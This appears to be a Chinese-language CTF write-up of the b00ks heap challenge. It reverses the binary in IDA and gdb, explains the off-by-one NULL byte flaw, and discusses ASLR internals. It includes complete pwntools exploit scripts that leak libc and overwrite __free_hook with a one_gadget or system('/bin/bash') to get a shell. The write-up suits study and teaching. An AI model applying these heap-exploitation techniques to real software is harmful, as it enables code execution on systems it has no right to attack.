


最新刚开始学pwn，还不熟悉ida和gdb。此篇记录了off-by-one b00ks上这道题的复现，从ida/gdb使用到payload编写。文中有一些内存分布图片偷懒我没有自己画，引用自这篇文章 （写的很好）。侵删。
基本信息检查
程序入口点分析 静态方法拿到程序入口

动态方法
start
功能：start命令用于加载程序并在程序的 main 函数的第一条语句之前设置一个临时断点。代码会执行到 main 函数启动之前，然后暂停，让你可以进行调试设置。
典型场景：start命令通常用于希望程序在还没有开始主要逻辑之前能暂停下来，让调试者有机会设置其他断点或检查初始状态。
入口指令恢复
这里看到IDA有一个错误的反编译，它把代码搞成了数据，选中这一段用 Undefine（快捷键 U），它会取消对该区域的数据显示。
在取消定义后，右键点击同一区域。选择 Code（快捷键 C），这将告诉 IDA Pro 重新识别该区域为代码。
右键点击选择 Code 或按 C 键，选force，重新将选中的区域转换为代码。

确定main函数 根据LIBC_START_MAIN的函数原型我们可以知道，第一个参数是main函数的地址 -> cs:11CFh
1 2 3 4 5 6 7 8 9 10 11 12 STATIC int LIBC_START_MAIN (int (*main) (int , char **, char ** MAIN_AUXVEC_DECL), int argc, char **argv, #ifdef LIBC_START_MAIN_AUXVEC_ARG ElfW(auxv_t ) *auxvec, #endif __typeof (main) init, void (*fini) (void ), void (*rtld_fini) (void ), void *stack_end)
由此找到main函数
在光标位于 011CF 地址上时，按下快捷键 N，会弹出一个对话框。输入 main 并确认。
代码阅读与函数名恢复
banner(sub_A77) 我们一个一个来看，sub_A77输出banner信息，重命名为banner
edit_author_name(sub_B6D) 需要用户输入author name，重命名为edit_author_name
create_book(sub_F55) sub_F55是在创建书，重命名为create book
delete_book(sub_BBD) sub_BBD是在删除书，重命名为delete_book
edit_book(sub_E17) sub_E17在修改book, edit_book
list_book(sub_D1F) 在输出所有书籍信息, list_book
sub_A89给出了选项，根据用户不同输出跳转到上面的各个子功能。重命名为menu
最后main被润色成如下
细读子功能 create_book 用户先输入一个size，然后malloc指定用户输入的size的大小
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 signed __int64 sub_F55 () { int v1; int v2; _DWORD *v3; _BYTE *v4; _BYTE *v5; v1 = 0 ; printf ("\nEnter book name size: " , *(_QWORD *)&v1); __isoc99_scanf("%d" , &v1); if ( v1 >= 0 ) { printf ("Enter book name (Max 32 chars): " , &v1); v4 = malloc (v1); if ( v4 ) { if ( (unsigned int )sub_9F5(v4, v1 - 1 ) )
接着调用sub_9F5，让我们细看一下sub_9F5的作用，这里它循环读取用户输入内容并且赋值给刚才malloc的那块内存。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 signed __int64 __fastcall sub_9F5 (_BYTE *a1, int a2) { int i; _BYTE *v4; if ( a2 <= 0 ) return 0LL ; v4 = a1; for ( i = 0 ; ; ++i ) { if ( (unsigned int )read(0 , v4, 1uLL ) != 1 ) return 1LL ; if ( *v4 == 10 ) break ; ++v4; if ( i == a2 ) break ; } *v4 = 0 ; return 0LL ; }
我们重名为scan_user_input。举个例子如果用户输入32, 那么就会调用scan_user_input(v4, 31)。scan_user_input内部循环从0读到31并且在第32位添加0，注意这里其实是一个 off -by-one NULL byte 问题，用户申请32的空间，实际写入了33个字符。
如果一切回继续进入else部分
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 else { v2 = sub_B24(); if ( v2 == -1 ) { printf ("Library is full" ); } else { v3 = malloc (0x20 uLL); if ( v3 ) { v3[6 ] = v1; *((_QWORD *)off_202010 + v2) = v3; *((_QWORD *)v3 + 2 ) = v5; *((_QWORD *)v3 + 1 ) = v4; *v3 = ++unk_202024; return 0LL ; } printf ("Unable to allocate book struct" ); } }
调用sub_B24
1 2 3 4 5 6 7 8 9 10 11 12 signed __int64 sub_B24 () { __int64 v1; *((_DWORD *)&v1 - 1 ) = 0 ; for ( *((_DWORD *)&v1 - 1 ) = 0 ; *((_DWORD *)&v1 - 1 ) <= 19 ; ++*((_DWORD *)&v1 - 1 ) ) { if ( !*((_QWORD *)off_202010 + *((signed int *)&v1 - 1 )) ) return *((unsigned int *)&v1 - 1 ); } return 0xFFFFFFFF LL; }
结合后面*((_QWORD *)off_202010 + v2) = v3分析，off_202010其实是一个数组（书柜）用来放置book对象的指针，循环遍历这个数字，如果数组对应下标为空，那么说明书柜有空位，返回对应下标，否则返回-1（-1的反码为0xFFFFFFFFLL）把sub_B24命名为check_space。
一旦有space就会给book对象malloc一个空间，稍微美化一下，容易看出在源码中book应该是一个结构体
1 2 3 4 5 6 7 8 9 10 11 book = malloc (0x20 uLL); if ( book ){ book[6 ] = desc_size; *((_QWORD *)bookshelf + idx) = book; *((_QWORD *)book + 2 ) = book_desc; *((_QWORD *)book + 1 ) = book_name; *book = ++unk_202024; return 0LL ; } printf ("Unable to allocate book struct" );
不过这里反编译的仍然很混乱，unk_202024应该是一个int, book + 1, book + 2应该是两个8字节的指针，为什么放size的时候突然发到book[6]了？book这里一个item的大小究竟是多少？
我们回到这部分汇编再看一下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 .text:00000000000010F A .text:00000000000010F A loc_10FA: ; CODE XREF: create_book+18 D↑j .text:00000000000010F A mov edi, 20 h ; ' ' ; size .text:00000000000010F F call _malloc .text:0000000000001104 mov [rbp-18 h], rax .text:0000000000001108 cmp qword ptr [rbp-18 h], 0 .text:000000000000110 D jnz short loc_1122 .text:000000000000110F lea rdi, large cs:1618 h ; "Unable to allocate book struct" .text:0000000000001116 mov eax, 0 .text:000000000000111B call _printf .text:0000000000001120 jmp short loc_118F .text:0000000000001122 ; --------------------------------------------------------------------------- .text:0000000000001122 .text:0000000000001122 loc_1122: ; CODE XREF: create_book+1B 8↑j .text:0000000000001122 mov eax, [rbp-20 h] .text:0000000000001125 mov edx, eax .text:0000000000001127 mov rax, [rbp-18 h] .text:000000000000112B mov [rax+18 h], edx .text:000000000000112 E lea rax, bookshelf .text:0000000000001135 mov rax, [rax] .text:0000000000001138 mov edx, [rbp-1 Ch] .text:000000000000113B movsxd rdx, edx .text:000000000000113 E shl rdx, 3 .text:0000000000001142 add rdx, rax .text:0000000000001145 mov rax, [rbp-18 h] .text:0000000000001149 mov [rdx], rax .text:000000000000114 C mov rax, [rbp-18 h] .text:0000000000001150 mov rdx, [rbp-8 ] .text:0000000000001154 mov [rax+10 h], rdx .text:0000000000001158 mov rax, [rbp-18 h] .text:000000000000115 C mov rdx, [rbp-10 h] .text:0000000000001160 mov [rax+8 ], rdx .text:0000000000001164 lea rax, unk_202024 .text:000000000000116B mov eax, [rax] .text:000000000000116 D lea edx, [rax+1 ] .text:0000000000001170 lea rax, unk_202024 .text:0000000000001177 mov [rax], edx .text:0000000000001179 lea rax, unk_202024 .text:0000000000001180 mov edx, [rax] .text:0000000000001182 mov rax, [rbp-18 h] .text:0000000000001186 mov [rax], edx .text:0000000000001188 mov eax, 0 .text:000000000000118 D jmp short locret_11CD .text:000000000000118F ; ----------------------------------------
综上
1 2 3 4 book + 0x18 h = desc_szie book + 0x8 h = name指针 book + 0x10 h = desc 指针 book + 0x0 h = int number
可见ida的反汇编结果不太准确。book结构体正确的偏移应该是。
1 2 3 4 0 -4 int 8 -16 ptr16 -24 ptr24 -28 int
1 2 3 4 5 6 struct book { int id; char *name; char *description; int description_size; } book;
在ida中创建结构体
这下就对味了, malloc完堆布局如下。
细说利用 (泄漏libc地址) bookshelf数组里面放着第一个book的指针 (0x0000555555603710)
Bookshelf和off_202018(author name相邻)
1 2 3 4 .data:0000000000202010 bookshelf dq offset unk_202060 ; DATA XREF: check_space:loc_B38↑o .data:0000000000202010 ; delete_book:loc_C1B↑o ... .data:0000000000202018 off_202018 dq offset unk_202040 ; DATA XREF: edit_author_name+15 ↑o .data:0000000000202018 ; list_book+CA↑o
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 gef➤ heap chunks Chunk(addr=0x555555603010 , size=0x290 , flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) [0x0000555555603010 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................] Chunk(addr=0x5555556032a0 , size=0x410 , flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) [0x00005555556032a0 33 32 0a 00 00 00 00 00 00 00 00 00 00 00 00 00 32. .............] Chunk(addr=0x5555556036b0 , size=0x30 , flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) [0x00005555556036b0 61 61 61 61 61 61 61 61 61 61 00 00 00 00 00 00 aaaaaaaaaa......] Chunk(addr=0x5555556036e0 , size=0x30 , flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) [0x00005555556036e0 62 62 62 62 62 62 62 62 62 62 00 00 00 00 00 00 bbbbbbbbbb......] Chunk(addr=0x555555603710 , size=0x30 , flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) [0x0000555555603710 01 00 00 00 00 00 00 00 b0 36 60 55 55 55 00 00 .........6 `UUU..] Chunk(addr=0x555555603740 , size=0x208d0 , flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA) ← top chunk gef➤ x /1xg 0x555555602010 0x555555602010 : 0x0000555555602060 gef➤ x /2xg 0x0000555555602060 0x555555602060 : 0x0000555555603710 0x0000000000000000
可以利用off-by-one把bookshelf的第一个指针最后一位覆盖为\x00。
如果我们可以把bookshelf抬高到上面description的位置，那么我们就可以提前在descripton里面伪造好book结构体的数据。
然后触发edit book的时候，就可以把我们想修改的内存地址传入进去（fake book的name和description指针指向我们修改的地址）进而达到任意地址写的目的。
然后触发list book的时候，就可以把我们想修改的内存地址传入进去（fake book的name和description指针指向我们修改的地址）进而达到任意地址读的目的。
这里需要倒推一下，不考虑地址随机化(ASLR)的话，malloc第一个book的name时，堆顶是0x5555556036b0 - 0x8（从prev_size开始算）
不考虑ASLR如果name malloc 64字节，desc malloc 32字节。那么实际上book ptr的地址会是
0x5555556036b0 - 0x10 + request2size(64) + request2size(32) + 0x10
= 0x5555556036b0 - 0x10 + request2size(64) + request2size(32) + 0x10
= 0x5555556036b0 + 0x50 + 0x30 = 0x555555603730
0x555555603730置0成0x555555603700刚好就是book1 description的地址。
更通行通法的来讲，应该再下面这个约束里面找一个解就行了。
1 2 3 addr = 0x5555556036b0 - 0x10 + request2size(X) + request2size(Y) + 0x10 (addr & ~(0x100 - 0x1 )) == 0x5555556036b0 - 0x10 + request2size(X) + 0x10 request2size(Y) >= size(book)
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 SIZE_SZ = 8 MALLOC_ALIGN_MASK = 15 MINSIZE = 32 def request2size (req ): if req + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE: return MINSIZE else : return (req + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK for X in range (0 , 65 ): for Y in range (0 , 65 ): addr = 0x5555556036b0 - 0x10 + request2size(X) + request2size(Y) + 0x10 if ( (addr & ~(0x100 - 0x1 )) == 0x5555556036b0 - 0x10 + request2size(X) + 0x10 and request2size(Y) >= 28 ): print (X, Y)
可以跑出来很多结果，我们随便挑一对验证。比如（57, 10）-> 其实在后面还会发现第二个为了放payload还是需要更长一点。
0x555555603720 -> addr=0x555555603700回到description
PS: 看起来这个题目我目前只malloc了小内存块不超过0x1000所以没有跨内存页的问题，如果heap地址在ASLR的情况下其实地址按0x1000对齐也不影响？
现在已经知道可以读写任意地址了，但是这个题开了ASLR仍然不是知道libc的基地址。在PWN里面知道基地址是非常核心的一步，因为后面无论是覆盖free_hook或者别的地址，又或是找onegadget 都需要它。
这里泄漏的基地址方法是在book中使用非常大的size迫使malloc使用mmap来分配内存， mmap分配的内存和libc基地址有一个固定偏移 。我们只需要在book1中description字段构造一个fake book让他指向book2的description或者name之一就能再调用list book就能泄漏mmap地址进而通过固定地址偏移计算出libc地址。
至于为什么有这个所谓的“固定偏移”，我看网上的wp都是一笔带过（no offence）。
翻了一点kernel源码看，基本搞懂了原理，写在下面附 固定地址原理
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 from pwn import *context(arch='x86' , os='linux' , log_level='debug' ) binary_path = '/home/parallels/Desktop/b00ks' io = process(binary_path) pwnlib.gdb.attach(proc.pidof(io)[0 ]) io.recvuntil('Enter author name:' ) io.sendline('a' * 32 ) io.recvuntil('>' ) io.sendline('1' ) io.recvuntil('Enter book name size:' ) io.sendline('64' ) io.recvuntil('Enter book name (Max 32 chars):' ) io.sendline('object1' ) io.recvuntil('Enter book description size:' ) io.sendline('32' ) io.recvuntil('Enter book description:' ) io.sendline('object1' ) io.recvuntil('>' ) io.sendline('4' ) io.recvuntil('Author:' ) io.recvuntil('a' *32 ) book1_addr = io.recv(6 ) book1_addr = book1_addr.ljust(8 , b'\x00' ) book1_addr = u64(book1_addr) print ("The first idx in bookshelf: " + hex (book1_addr))io.recvuntil('>' ) io.sendline('3' ) io.recvuntil('Enter the book id you want to edit: ' ) io.sendline('1' ) io.recvuntil('Enter new book description: ' ) fake_book_data = p64(0x1 ) + p64(book1_addr + 0x30 + 4 + 4 ) + p64(book1_addr + 0x30 + 4 + 4 + 8 ) + p64(0xffff ) io.sendline(fake_book_data) io.recvuntil('>' ) io.sendline('5' ) io.recvuntil('Enter author name:' ) io.sendline('a' * 32 ) io.recvuntil('>' ) io.sendline('1' ) io.recvuntil('Enter book name size:' ) io.sendline(str (128 *1024 )) io.recvuntil('Enter book name (Max 32 chars):' ) io.sendline('object2' ) io.recvuntil('Enter book description size:' ) io.sendline(str (128 *1024 )) io.recvuntil('Enter book description:' ) io.sendline('object2' ) io.recvuntil('>' ) io.sendline('4' ) io.recvuntil('Name: ' ) name_mmap_addr = io.recv(6 ) name_mmap_addr = name_mmap_addr.ljust(8 , b'\x00' ) io.recvuntil('Description: ' ) desc_mmap_addr = io.recv(6 ) desc_mmap_addr = desc_mmap_addr.ljust(8 , b'\x00' ) print ("name_mmap_addr : " + hex (u64(name_mmap_addr)))print ("desc_mmap_addr : " + hex (u64(desc_mmap_addr)))
这里还有一个小困惑，为什么libc-2.31.so被加载进来了这多次。
在本地调试的时候发现，chunk地址是0x00007fdcf6db5010，0x00007fdcf6d94010。我们就用第二个来算吧，libc相对description的固定偏移是0x7fdcf6dd6000 - 0x00007fdcf6d94010 = 0x41ff0
1 2 3 4 5 6 7 8 desc_mmap_addr = io.recv(6 ) desc_mmap_addr = desc_mmap_addr.ljust(8 , b'\x00' ) print ("name_mmap_addr : " + hex (u64(name_mmap_addr)))print ("desc_mmap_addr : " + hex (u64(desc_mmap_addr)))libc_base = int (u64(desc_mmap_addr)) + 0x41ff0 print ("libc addr : " + hex (libc_base))
验证一下是对的
细说利用 (onegadget getshell) Libc base已经泄露了，下一步就是edit fake book1中指向book2的desc的地方改成free_hook地址，这样在edit book2的时候就可以覆盖free hook地址的内容为one gadget地址。然后在delete book的时候就会触发free hook的one gadget获取到shell。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 parallels@parallels-Parallels-Virtual-Platform:~/Desktop$ one_gadget -f /usr/lib/x86_64-linux-gnu/libc-2.31 .so 0xe3afe execve("/bin/sh" , r15, r12)constraints: [r15] == NULL || r15 == NULL || r15 is a valid argv [r12] == NULL || r12 == NULL || r12 is a valid envp 0xe3b01 execve("/bin/sh" , r15, rdx)constraints: [r15] == NULL || r15 == NULL || r15 is a valid argv [rdx] == NULL || rdx == NULL || rdx is a valid envp 0xe3b04 execve("/bin/sh" , rsi, rdx)constraints: [rsi] == NULL || rsi == NULL || rsi is a valid argv [rdx] == NULL || rdx == NULL || rdx is a valid envp
这种覆盖hook类方法的原理是在进入free之前会先看是否有自定义的free_hook函数如果有的话，就会直接用这个free hook而不会进入libc标准的free流程。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 void __libc_free (void *mem) { mstate ar_ptr; mchunkptr p; void (*hook) (void *, const void *) = atomic_forced_read (__free_hook); if (__builtin_expect (hook != NULL , 0 )) { (*hook)(mem, RETURN_ADDRESS (0 )); return ; } if (mem == 0 ) return ; p = mem2chunk (mem);
exp如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 from pwn import *bin = ELF('b00ks' )libc = ELF('/lib/x86_64-linux-gnu/libc.so.6' ) context(arch='x86' , os='linux' , log_level='debug' ) binary_path = '/home/parallels/Desktop/b00ks' io = process(binary_path) pwnlib.gdb.attach(proc.pidof(io)[0 ]) io.recvuntil('Enter author name:' ) io.sendline('a' * 32 ) io.recvuntil('>' ) io.sendline('1' ) io.recvuntil('Enter book name size:' ) io.sendline('64' ) io.recvuntil('Enter book name (Max 32 chars):' ) io.sendline('object1' ) io.recvuntil('Enter book description size:' ) io.sendline('32' ) io.recvuntil('Enter book description:' ) io.sendline('object1' ) io.recvuntil('>' ) io.sendline('4' ) io.recvuntil('Author:' ) io.recvuntil('a' *32 ) book1_addr = io.recv(6 ) book1_addr = book1_addr.ljust(8 , b'\x00' ) book1_addr = u64(book1_addr) print ("The first idx in bookshelf: " + hex (book1_addr))io.recvuntil('>' ) io.sendline('3' ) io.recvuntil('Enter the book id you want to edit: ' ) io.sendline('1' ) io.recvuntil('Enter new book description: ' ) fake_book_data = p64(0x1 ) + p64(book1_addr + 0x30 + 0x8 ) + p64(book1_addr + 0x30 + 0x8 + 0x8 ) + p64(0xffff ) io.sendline(fake_book_data) io.recvuntil('>' ) io.sendline('5' ) io.recvuntil('Enter author name:' ) io.sendline('a' * 32 ) io.recvuntil('>' ) io.sendline('1' ) io.recvuntil('Enter book name size:' ) io.sendline(str (128 *1024 )) io.recvuntil('Enter book name (Max 32 chars):' ) io.sendline('object2' ) io.recvuntil('Enter book description size:' ) io.sendline(str (128 *1024 )) io.recvuntil('Enter book description:' ) io.sendline('object2' ) io.recvuntil('>' ) io.sendline('4' ) io.recvuntil('Name: ' ) name_mmap_addr = io.recv(6 ) name_mmap_addr = name_mmap_addr.ljust(8 , b'\x00' ) io.recvuntil('Description: ' ) desc_mmap_addr = io.recv(6 ) desc_mmap_addr = desc_mmap_addr.ljust(8 , b'\x00' ) print ("name_mmap_addr : " + hex (u64(name_mmap_addr)))print ("desc_mmap_addr : " + hex (u64(desc_mmap_addr)))io.recvuntil('Name: ' ) io.recvuntil('Description: ' ) libc_base = int (u64(desc_mmap_addr)) + 0x41ff0 print ("libc addr : " + hex (libc_base))free_hook = p64(libc_base + libc.symbols["__free_hook" ]) one_gadget = p64(libc_base + 0xe3afe ) io.recvuntil('>' ) io.sendline('3' ) io.recvuntil('Enter the book id you want to edit: ' ) io.sendline('1' ) io.recvuntil('Enter new book description: ' ) io.sendline(free_hook) io.recvuntil('>' ) io.sendline('3' ) io.recvuntil('Enter the book id you want to edit: ' ) io.sendline('2' ) io.recvuntil('Enter new book description: ' ) io.sendline(one_gadget) print ("free_hook: " + hex (libc_base + libc.symbols["__free_hook" ]))print ("one gadget: " + hex (libc_base + 0xe3afe ))io.recvuntil('>' ) io.sendline('2' ) io.recvuntil('Enter the book id you want to delete:' ) io.sendline('2' ) io.interactive()
但是很不巧的是，onegadget是有约束相应寄存器的值需要是NULL，在我本机的环境里面这三个地址运行到时寄存器情况都不满足。
细说利用（system） 所以这里需要换一个更通用的方法，预先再创建一个book3把description字段和name字段覆盖成/bin/bash\x00，接着把freehook的地址替换成system。这样在delete时候原本free chunk会直接变成system(‘/bin/bash\x00’)。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 from pwn import *bin = ELF('b00ks' )libc = ELF('/lib/x86_64-linux-gnu/libc.so.6' ) context(arch='x86' , os='linux' , log_level='debug' ) binary_path = '/home/parallels/Desktop/b00ks' io = process(binary_path) pwnlib.gdb.attach(proc.pidof(io)[0 ]) io.recvuntil('Enter author name:' ) io.sendline('a' * 32 ) io.recvuntil('>' ) io.sendline('1' ) io.recvuntil('Enter book name size:' ) io.sendline('64' ) io.recvuntil('Enter book name (Max 32 chars):' ) io.sendline('object1' ) io.recvuntil('Enter book description size:' ) io.sendline('32' ) io.recvuntil('Enter book description:' ) io.sendline('object1' ) io.recvuntil('>' ) io.sendline('4' ) io.recvuntil('Author:' ) io.recvuntil('a' *32 ) book1_addr = io.recv(6 ) book1_addr = book1_addr.ljust(8 , b'\x00' ) book1_addr = u64(book1_addr) print ("The first idx in bookshelf: " + hex (book1_addr))io.recvuntil('>' ) io.sendline('3' ) io.recvuntil('Enter the book id you want to edit: ' ) io.sendline('1' ) io.recvuntil('Enter new book description: ' ) fake_book_data = p64(0x1 ) + p64(book1_addr + 0x30 + 4 + 4 ) + p64(book1_addr + 0x30 + 4 + 4 + 8 ) + p64(0xffff ) io.sendline(fake_book_data) io.recvuntil('>' ) io.sendline('5' ) io.recvuntil('Enter author name:' ) io.sendline('a' * 32 ) io.recvuntil('>' ) io.sendline('1' ) io.recvuntil('Enter book name size:' ) io.sendline(str (128 *1024 )) io.recvuntil('Enter book name (Max 32 chars):' ) io.sendline('object2' ) io.recvuntil('Enter book description size:' ) io.sendline(str (128 *1024 )) io.recvuntil('Enter book description:' ) io.sendline('object2' ) io.recvuntil('>' ) io.sendline('1' ) io.recvuntil('Enter book name size:' ) io.sendline('32' ) io.recvuntil('Enter book name (Max 32 chars):' ) io.sendline('/bin/bash\x00' ) io.recvuntil('Enter book description size:' ) io.sendline('32' ) io.recvuntil('Enter book description:' ) io.sendline('/bin/bash\x00' ) io.recvuntil('>' ) io.sendline('4' ) io.recvuntil('Name: ' ) name_mmap_addr = io.recv(6 ) name_mmap_addr = name_mmap_addr.ljust(8 , b'\x00' ) io.recvuntil('Description: ' ) desc_mmap_addr = io.recv(6 ) desc_mmap_addr = desc_mmap_addr.ljust(8 , b'\x00' ) print ("name_mmap_addr : " + hex (u64(name_mmap_addr)))print ("desc_mmap_addr : " + hex (u64(desc_mmap_addr)))io.recvuntil('Name: ' ) io.recvuntil('Description: ' ) io.recvuntil('Name: ' ) io.recvuntil('Description: ' ) libc_base = int (u64(desc_mmap_addr)) + 0x41ff0 print ("libc addr : " + hex (libc_base))free_hook = p64(libc_base + libc.symbols["__free_hook" ]) system = p64(libc_base + libc.symbols["system" ]) io.recvuntil('>' ) io.sendline('3' ) io.recvuntil('Enter the book id you want to edit: ' ) io.sendline('1' ) io.recvuntil('Enter new book description: ' ) io.sendline(free_hook) io.recvuntil('>' ) io.sendline('3' ) io.recvuntil('Enter the book id you want to edit: ' ) io.sendline('2' ) io.recvuntil('Enter new book description: ' ) io.sendline(system) print ("free_hook: " + hex (libc_base + libc.symbols["__free_hook" ]))print ("system : " + hex (libc_base + libc.symbols["system" ]))io.recvuntil('>' ) io.sendline('2' ) io.recvuntil('Enter the book id you want to delete:' ) io.sendline('3' ) io.interactive()
附 request2size 1 2 3 4 5 6 7 8 9 10 11 12 SIZE_SZ = 8 MALLOC_ALIGN_MASK = 15 MINSIZE = 32 def request2size (req ): if req + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE: return MINSIZE else : return (req + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK print (hex (request2size(32 )))
附 brk起始地址计算方式 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 mm->brk = mm->start_brk = arch_randomize_brk(mm); unsigned long arch_randomize_brk (struct mm_struct *mm) { unsigned long range_end = mm->brk + 0x02000000 ; return randomize_range(mm->brk, range_end, 0 ) ? : mm->brk; } unsigned long randomize_range (unsigned long start, unsigned long end, unsigned long len) { unsigned long range = end - len - start; if (end <= start + len) return 0 ; return PAGE_ALIGN(get_random_int() % range + start); } static DEFINE_PER_CPU (__u32 [MD5_DIGEST_WORDS], get_random_int_hash) ;unsigned int get_random_int (void ) { __u32 *hash; unsigned int ret; if (arch_get_random_int(&ret)) return ret; hash = get_cpu_var(get_random_int_hash); hash[0 ] += current->pid + jiffies + random_get_entropy(); available, else it returns zero. md5_transform(hash, random_int_secret); ret = hash[0 ]; put_cpu_var(get_random_int_hash); return ret; } EXPORT_SYMBOL(get_random_int);
附 mmap计算方式 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 void arch_pick_mmap_layout (struct mm_struct *mm, struct rlimit *rlim_stack) { if (mmap_is_legacy()) clear_bit(MMF_TOPDOWN, &mm->flags); else set_bit(MMF_TOPDOWN, &mm->flags); arch_pick_mmap_base(&mm->mmap_base, &mm->mmap_legacy_base, arch_rnd(mmap64_rnd_bits), task_size_64bit(0 ), rlim_stack); } static void arch_pick_mmap_base (unsigned long *base, unsigned long *legacy_base, unsigned long random_factor, unsigned long task_size, struct rlimit *rlim_stack) { *legacy_base = mmap_legacy_base(random_factor, task_size); if (mmap_is_legacy()) *base = *legacy_base; else *base = mmap_base(random_factor, task_size, rlim_stack); } unsigned long task_size_64bit (int full_addr_space) { return full_addr_space ? TASK_SIZE_MAX : DEFAULT_MAP_WINDOW; } static __always_inline unsigned long task_size_max (void ) { unsigned long ret; alternative_io("movq %[small],%0" ,"movq %[large],%0" , X86_FEATURE_LA57, "=r" (ret), [small] "i" ((1ul << 47 )-PAGE_SIZE), [large] "i" ((1ul << 56 )-PAGE_SIZE)); return ret; } unsigned long arch_mmap_rnd (void ) { return arch_rnd(mmap_is_ia32() ? mmap32_rnd_bits : mmap64_rnd_bits); } static unsigned long arch_rnd (unsigned int rndbits) { if (!(current->flags & PF_RANDOMIZE)) return 0 ; return (get_random_long() & ((1UL << rndbits) - 1 )) << PAGE_SHIFT; } static unsigned long mmap_base (unsigned long rnd, unsigned long task_size, struct rlimit *rlim_stack) { unsigned long gap = rlim_stack->rlim_cur; unsigned long pad = stack_maxrandom_size(task_size) + stack_guard_gap; unsigned long gap_min, gap_max; if (gap + pad > gap) gap += pad; gap_min = SIZE_128M; gap_max = (task_size / 6 ) * 5 ; if (gap < gap_min) gap = gap_min; else if (gap > gap_max) gap = gap_max; return PAGE_ALIGN(task_size - gap - rnd); }
